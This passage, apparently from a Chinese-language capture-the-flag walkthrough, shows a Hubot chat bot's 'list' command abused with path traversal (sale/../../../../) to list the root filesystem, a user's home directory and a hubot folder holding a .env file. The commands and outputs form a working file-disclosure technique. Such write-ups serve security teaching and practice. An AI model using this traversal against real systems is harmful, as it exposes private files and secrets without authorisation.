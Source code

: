 回收利用概况

这个机器人基于 [hubot](https://hubot.github.com/) 。如果我键入 list，我会看到销售文件夹的内容:

```
list

Fetching the directory listing of /sales/
drwxr-xr-x 2 dwight dwight 27 Sep 15 13:03 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
```

这里没有什么有趣的东西，但是您可以进行路径遍历来查看其他文件夹:

```
list sale/../../../../

Fetching the directory listing of sale/../../../../
-rw-r--r-- 1 root root 0 Jan 14 06:07 .autorelabel
lrwxrwxrwx 1 root root 7 Jun 22 2021 bin -> usr/bin
dr-xr-xr-x. 4 root root 4096 Jan 14 06:46 boot
drwxr-xr-x 20 root root 3020 Feb 6 09:40 dev
drwxr-xr-x. 145 root root 8192 Feb 6 09:40 etc
drwxr-xr-x. 3 root root 20 Jan 14 06:50 home
lrwxrwxrwx 1 root root 7 Jun 22 2021 lib -> usr/lib
lrwxrwxrwx. 1 root root 9 Jun 22 2021 lib64 -> usr/lib64
drwxr-xr-x. 2 root root 6 Jun 22 2021 media
drwxr-xr-x. 3 root root 18 Jun 22 2021 mnt<
<SNIP>
```

如果你看看德怀特的家，你会看到一个名为 hubot 的文件夹:

```
list sale/../../../../home/dwight

Fetching the directory listing of sale/../../../../home/dwight
<SNIP>
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 06:58 bot_restart.sh
drwx------ 8 dwight dwight 4096 Sep 16 07:57 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 07:24 .hubot_history
```

查看 hubot 文件夹，我们有许多文件:

```
list sale/../../hubot/

Fetching the directory listing of sale/../../hubot/
drwx--x--x 2 dwight dwight 36 Sep 16 07:34 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 07:57 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 296856 Feb 6 15:01 .hubot.log
```
